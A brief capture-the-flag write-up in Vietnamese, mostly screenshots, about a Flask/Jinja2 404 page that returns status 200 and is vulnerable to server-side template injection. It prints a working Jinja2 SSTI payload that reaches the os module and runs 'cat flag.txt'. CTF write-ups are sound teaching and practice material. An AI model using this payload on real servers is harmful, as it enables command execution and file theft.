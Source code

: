 ![image](https://github.com/user-attachments/assets/a49c4e1a-e4a7-4f64-8740-7250c8263b17)

Đây là req của nó:

![image](https://github.com/user-attachments/assets/badfee10-207f-4ea3-bdef-93b0721a749f)

Khi vào mấy cái dir invalid thì nó hiện như này:

![image](https://github.com/user-attachments/assets/916d4a1e-b05b-4edf-a505-36e1d3de50b1)

Vấn đề ở đây là mặc dù page có để quả 404 nhưng cái response lại là 200 với cả Flask/Jinja2, fuzz qua 1 tí thì có dính quả ssti:

![image](https://github.com/user-attachments/assets/da417db8-32e8-4560-a552-d45af90654a2)

Dùng payload `{{ self._TemplateReference__context.cycler.__init__.__globals__['os'].popen('cat flag.txt').read() }}` để mở file flag.txt:

![image](https://github.com/user-attachments/assets/2ca9af6c-4c1c-4461-a4c7-60741831a892)





